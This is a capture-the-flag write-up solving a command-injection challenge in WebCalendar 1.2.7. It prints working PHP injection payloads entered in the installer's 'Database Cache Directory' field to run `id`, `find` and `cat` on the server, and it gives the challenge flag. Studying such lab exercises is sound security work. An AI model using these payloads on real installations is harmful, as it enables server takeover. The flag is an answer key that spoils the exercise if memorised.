



# Web Application III (300 pts)

## Description

An attacker might get administrative access to a web application. However, this does not automatically mean that the web server can be compromised. In cases where a SaaS application is made available to users, it is routine to give each user admin access to his own instance of the web application e.g. a managed hosted Wordpress site. In such a scenario, the attacker who will begin accessing the application as a managed administrative user will have to figure out how to exploit the administrative interface to get a shell on the server. In some cases, it might be possible to do privilege escalation as well.

In the exercise below, the attacker has administrative access to the web application and needs to find a command injection attack to run arbitrary commands on the server.

A version of WebCalendar is vulnerable to a command injection attack.

The following password may be used to explore the application and/or find a vulnerability which might require authenticated access:

| Password |
|----------|
| password |

**Objective**: Your task is to find and exploit this vulnerability.

## Solution

### Context

From the description we know that the web application that we are dealing with is **WebCalendar** and that we are using a particular version that is vulnerable to a command injection attack.

Goint into the web application we can find out the version of it by navigating to ```Search --> About WebCalendar```



As we can see the version number is `1.2.7` with this information we can figure out what vulnerabilites are known for this version of this app.

From [exploit.db](https://www.exploit-db.com/exploits/40057) we can see that indeed this version is vulnerable to command injection attacks and there is a proof of concept that we can base our exploit upon.

### Execution

1. Navigate to `/installs/index.php` and login with the credentials given.



2. Navigate to the second page and type in the following in the _Database Cache Directory_ field

```
/tmp */?> <?php echo `id`; ?> <?php/*
```

3. We can view the output of the command execution by navigating to `/includes/settings.php`



4. This shows that our command injection actually works and we can proceed to find the flag by now inserting the following into the _Database Cache Directory_ field

```
/tmp */?> <?php echo `find / -name flag`; ?> <?php/*
```

5. Doing so will return us the location of the flag --> `/tmp/flag`

6. To read the flag file we can insert the following into the _Database Cache Directory_ field

```
/tmp */?> <?php echo `cat /tmp/flag`; ?> <?php/*
```
## Flag

```
86f1d2cd0ff916575562da9eebba802b
```
